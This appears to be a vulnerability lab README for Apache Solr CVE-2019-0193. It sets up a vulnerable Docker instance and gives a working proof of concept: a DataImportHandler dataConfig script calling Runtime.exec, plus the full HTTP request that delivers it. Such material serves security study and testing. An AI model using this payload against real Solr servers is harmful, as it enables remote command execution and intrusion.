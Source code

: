 # Apache Solr Remote Command Execution (CVE-2019-0193)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Solr is an open-source search server. It is written in Java and built upon Apache Lucene. This vulnerability exists in Apache Solr's DataImportHandler, which is an optional but commonly used module for extracting data from databases and other sources. The vulnerability arises because all DIH configurations can be set through the dataConfig parameter in external requests. Since DIH configurations can contain scripts, attackers can execute remote commands by constructing malicious requests.

References:

- <https://mp.weixin.qq.com/s/typLOXZCev_9WH_Ux0s6oA>
- <https://paper.seebug.org/1009/>

## Environment Setup

Execute the following command to start an Apache Solr 8.1.1 server:

```
docker compose up -d
```

After the server starts, you can access the Apache Solr management interface at `http://your-ip:8983/`. No authentication is required.

## Vulnerability Reproduction

First, select the `demo` core from the left sidebar, open the Dataimport panel, enable Debug mode on the right, and enter the following POC:

```
<dataConfig>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="sample"
            fileName=".*"
            baseDir="/"
            processor="FileListEntityProcessor"
            recursive="false"
            transformer="script:poc" />
  </document>
</dataConfig>
```

![](1.png)

Click "Execute with this Configuration" to send the following request:

```
POST /solr/demo/dataimport?_=1708782956647&indent=on&wt=json HTTP/1.1
Host: your-ip:8983
Content-Length: 613
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-type: application/x-www-form-urlencoded
Origin: http://your-ip:8983
Referer: http://your-ip:8983/solr/
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Connection: close

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=demo&dataConfig=%3CdataConfig%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22sample%22%0A++++++++++++fileName%3D%22.*%22%0A++++++++++++baseDir%3D%22%2F%22%0A++++++++++++processor%3D%22FileListEntityProcessor%22%0A++++++++++++recursive%3D%22false%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport
```

Execute `docker compose exec solr ls /tmp` to enter the container, and you can see that `touch /tmp/success` has been successfully executed:

![](2.jpg)
